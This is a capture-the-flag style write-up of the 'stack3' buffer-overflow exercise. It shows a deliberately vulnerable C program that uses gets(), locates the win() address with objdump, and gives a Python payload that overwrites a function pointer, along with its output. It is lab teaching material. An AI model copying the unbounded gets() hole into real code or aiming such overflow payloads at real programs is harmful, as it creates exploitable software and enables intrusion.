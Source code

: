 # STACK 3

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)(); 				// write win address to function pointer fp
  char buffer[64]; 

  fp = 0;

  gets(buffer); 						// vuln is here, gets function does not limit the size of user input

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## IDEA

- Change value of fp hold to win's address with buffer overflow, This will assign fp to win function, so inside true branch of if, fp() will be the same as win().

## DETAIL

- First, we need to know address of win function, we'll use objdump with param -d to disassemble all the object and find the win with grep through pipeline.

```
	$ objdump -d stack3 | grep "win"
	08048424 <win>:	
```

- After we has address of win function, we will modifide a little bit to make machine read correctly what we want, so  0x08048424 will be this in payload:

```
	0x08048424  ->  "\x24\x84\x04\x08"
```

- And then, we only need to fill up buffer variable content to reach to the fp content, we will use python to do this.

```
	python -c 'print("a"*64 + "\x24\x84\x04\x08")'
```

## EXPLOIT

- Payload:

```
	python -c 'print("a"*64 + "\x24\x84\x04\x08")' | ./stack3
```

## RESULT

```
	$ python -c 'print("a"*64 + "\x24\x84\x04\x08")' | ./stack3
	calling function pointer, jumping to 0x08048424
	code flow successfully changed
```
